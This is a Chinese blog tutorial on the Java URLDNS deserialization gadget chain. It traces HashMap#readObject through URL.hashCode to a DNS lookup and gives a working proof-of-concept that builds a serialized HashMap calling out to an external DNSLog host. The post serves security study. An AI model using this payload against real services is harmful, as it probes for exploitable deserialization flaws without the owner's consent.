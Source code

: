 ```yaml
---  
title: URLDNS链详解  
subtitle:  
date: 2024-01-14T00:12:12+08:00  
slug: fdfad53  
draft: false  
author:  
  name: N1Rvana  
  email: beichenghua@gmail.com  
  avatar: avatar.png  
description:  
keywords:  
license:  
comment: false  
weight: 0  
tags:  
  - URLDNS  
categories:  
  - Java  
hiddenFromHomePage: false  
hiddenFromSearch: false  
hiddenFromRss: false  
hiddenFromRelated: false  
summary:  
resources:  
  - name: featured-image  
    src: featured-image.jpg  
  - name: featured-image-preview  
    src: featured-image-preview.jpg  
toc: true  
math: false  
lightgallery: false  
password:  
message:  
repost:  
  enable: true  
  url:  
  
# See details front matter: https://fixit.lruihao.cn/documentation/content-management/introduction/#front-matter  
---  
```

  
世界上最简单的 java 链  
<!--more-->  
  
  
先来看一下如何序列化/反序列化  
```java  
package org.example;    
    
import java.io.*;    
    
public class App     
{    
    public static void main( String[] args ) throws Exception    
    {    
        user user = new user();    
        user.setName("xiaoming");    
        //序列化输出    
        ObjectOutputStream out = new ObjectOutputStream(System.out);    
        out.writeObject(user);    
        System.out.println();    
        // 序列化写入文件    
        FileOutputStream file = new FileOutputStream("test.bin");    
        ObjectOutputStream fout = new ObjectOutputStream(file);    
        fout.writeObject(user);    
        // 序列化写入到变量中    
        ByteArrayOutputStream bout = new ByteArrayOutputStream();    
        ObjectOutputStream jout = new ObjectOutputStream(bout);    
        jout.writeObject(user);    
        byte[] str = bout.toByteArray();    
        System.out.println(new String(str));    
        // 从变量中反序列化    
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(str));    
        user user_d = (user) ois.readObject();    
        System.out.println(user_d.getName());    
    }    
}    
    
class user implements Serializable{    
    private String name;    
    
    public user() {    
    }    
    
    public void setName(String name) {    
        this.name = name;    
    }    
    
    public String getName() {    
        return name;    
    }    
}  
```  
# URLDNS链详解  
## 原理  
`java.util.HashMap`重写了`readObject`方法，在反序列化时调用`hash`函数计算 key 的 hashCode，而`java.net.URL`的 hashCode 在计算时会调用`getHostAddress`来解析域名，从而发出 DNS 请求  
由HashMap 类`readObject`引起，  
```java  
private void readObject(ObjectInputStream s)    
    throws IOException, ClassNotFoundException {    
    reinitialize();    
    
    ObjectInputStream.GetField fields = s.readFields();    
    
    // Read loadFactor (ignore threshold)    
    float lf = fields.get("loadFactor", 0.75f);    
    if (lf <= 0 || Float.isNaN(lf))    
        throw new InvalidObjectException("Illegal load factor: " + lf);    
    
    lf = Math.min(Math.max(0.25f, lf), 4.0f);    
    HashMap.UnsafeHolder.putLoadFactor(this, lf);    
    
    s.readInt();                // Read and ignore number of buckets    
    int mappings = s.readInt(); // Read number of mappings (size)    
    if (mappings < 0) {    
        throw new InvalidObjectException("Illegal mappings count: " + mappings);    
    } else if (mappings == 0) {    
        // use defaults    
    } else if (mappings > 0) {    
        float fc = (float)mappings / lf + 1.0f;    
        int cap = ((fc < DEFAULT_INITIAL_CAPACITY) ?    
                   DEFAULT_INITIAL_CAPACITY :    
                   (fc >= MAXIMUM_CAPACITY) ?    
                   MAXIMUM_CAPACITY :    
                   tableSizeFor((int)fc));    
        float ft = (float)cap * lf;    
        threshold = ((cap < MAXIMUM_CAPACITY && ft < MAXIMUM_CAPACITY) ?    
                     (int)ft : Integer.MAX_VALUE);    
    
        // Check Map.Entry[].class since it's the nearest public type to    
        // what we're actually creating.        SharedSecrets.getJavaObjectInputStreamAccess().checkArray(s, Map.Entry[].class, cap);    
        @SuppressWarnings({"rawtypes","unchecked"})    
        Node<K,V>[] tab = (Node<K,V>[])new Node[cap];    
        table = tab;    
    
        // Read the keys and values, and put the mappings in the HashMap    
        for (int i = 0; i < mappings; i++) {    
            @SuppressWarnings("unchecked")    
                K key = (K) s.readObject();    
            @SuppressWarnings("unchecked")    
                V value = (V) s.readObject();    
            putVal(hash(key), key, value, false, false);    
        }    
    }    
}  
```  
在`HashMap`的键名计算了 hash，  
`putVal(hash(key), key, value, false, false);`  
跟进查看一下  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401141127560.png)
调用了`key.hashCode()`，而这里的 key 是可控的，就是传入的`java.net.URL`，跟进查看一下  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401141150723.png)
这里`hashCode==-1`，重新进行`hashCode()`方法计算，跟进`handler`查看调用了哪一个`hashCode()`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401141151442.png)
`transient关键字，修饰 Java 序列化对象时，不需要序列化属性`也就是`handler`属性不参与序列化，直接跟进`URLStreamHandler`查看一下  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401141152682.png)
这里调用了`getHostAddress`跟进查看一下  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401141153663.png)
又调用了`java.net.URL`的`getHostAddress`方法  
继续跟进  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401141154024.png)
进入到`InetAddress.getByName(host);`便会触发`DNS`请求  
继续回到`readObject()`中，看看如何给`key`赋值  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401141230086.png)
`key`是从`K key = (K) s.readObject();`这串代码，也就是`readObject`中得到的，说明之前是`writeObject`会写入 key  
HashMap#writeObject  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401141232544.png)
进入了`internalWriteEntries()`跟进查看  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401141232079.png)
这里的`key`以及`value`是从 tab 中取的，而 tab 的值即`HashMap`中 table 的值。  
想要修改table的值，就需要调用`HashMap#put`方法，而HashMap#put方法中也会对key调用一次hash方法，所以这里也会产生一次dns查询  
为了避免这次 dns 查询，我们将hashCode设置不为`-1`的其他值  
构造完整poc  
```java  
package org.example;    
    
import java.io.*;    
import java.lang.reflect.Field;    
import java.net.URL;    
import java.util.HashMap;    
    
    
public class URLDNS {    
    public static void main(String[] args) throws Exception {    
        HashMap hashmap = new HashMap();    
        URL url = new URL("http://47894df839.ipv6.1433.eu.org");    
        Field f = Class.forName("java.net.URL").getDeclaredField("hashCode");    
        f.setAccessible(true);    
        f.set(url,1);    
        hashmap.put(url,1);    
        f.set(url,-1);    
        ByteArrayOutputStream b = new ByteArrayOutputStream();    
        ObjectOutputStream oos = new ObjectOutputStream(b);    
        oos.writeObject(hashmap);    
    
        byte[] str = b.toByteArray();    
        System.out.println(str);    
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(str));    
        ois.readObject();    
    
    
    }    
}  
```  
调用栈如下  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401141314961.png)
  
  